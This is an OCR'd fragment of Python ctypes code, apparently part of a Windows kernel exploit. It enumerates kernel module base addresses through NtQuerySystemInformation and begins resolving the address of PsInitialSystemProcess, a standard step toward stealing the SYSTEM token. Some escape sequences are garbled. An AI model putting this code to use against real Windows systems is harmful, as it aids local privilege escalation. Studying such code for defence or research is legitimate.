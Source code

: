 ```
                ("LoadOrderIndex", c_ushort),
                ("InitOrderIndex", c_ushort),
                ("LoadCount", c_ushort),
                ("ModuleNameOffset", c_ushort),
                ("FullPathName", c_char * 256)]

def get_base_address(input_modules):
    """ Returns base address of kernel modules """
    modules = `{``}`

    # Allocate arbitrary buffer and call NtQuerySystemInformation
    system_information = create_string_buffer(0)
    systeminformationlength = c_ulong(0)
    ntdll.NtQuerySystemInformation(11, system_information, len(system_information), byref(systeminformationlength))

    # Call NtQuerySystemInformation second time with right size
    system_information = create_string_buffer(systeminformationlength.value)
    ntdll.NtQuerySystemInformation(11, system_information, len(system_information), byref(systeminformationlength))

    # Read first 4 bytes which contains number of modules retrieved
    module_count = c_ulong(0)
    module_count_string = create_string_buffer(system_information.raw[:8])
    ctypes.memmove(addressof(module_count), module_count_string, sizeof(module_count))

    # Marshal each module information and store it in a dictionary&lt;name, SYSTEM_MODULE_INFORMATION&gt;
    system_information = create_string_buffer(system_information.raw[8:])
    for x in range(module_count.value):
        smi = SYSTEM_MODULE_INFORMATION()
        temp_system_information = create_string_buffer(system_information.raw[sizeof(smi) * x: sizeof(smi) * (x+1)])
        ctypes.memmove(addressof(smi), temp_system_information, sizeof(smi))
        module_name =  smi.FullPathName.split('\')[-1]
        modules[module_name] = smi

    debug_print("rn[&gt;] NtQuerySystemInformation():")

    # Get base addresses and return them in a list
    base_addresses = []
    for input_module in input_modules:
        try:
            base_address = modules[input_module].ImageBase
            debug_print ("t[+] %s base address: 0x%X" % (input_module, base_address))
            base_addresses.append(base_address)
        except:
            base_addresses.append(0)

    return base_addresses


def get_PsISP_kernel_address():    
    """ Returns kernel base address of PsInitialSystemProcess """
    # Get kernel image base
    kernelImage = "ntoskrnl.exe"
    base_addresses = get_base_address(kernelImage.split())
    kernel_image_base = base_addresses[0]
    debug_print("[+] Nt Base Address: 0x%X" % kernel_image_base)

    # Load kernel image in userland and get PsInitialSystemProcess offset
    kernel32.LoadLibraryA.restype = HMODULE
    hKernelImage = kernel32.LoadLibraryA(kernelImage)
```
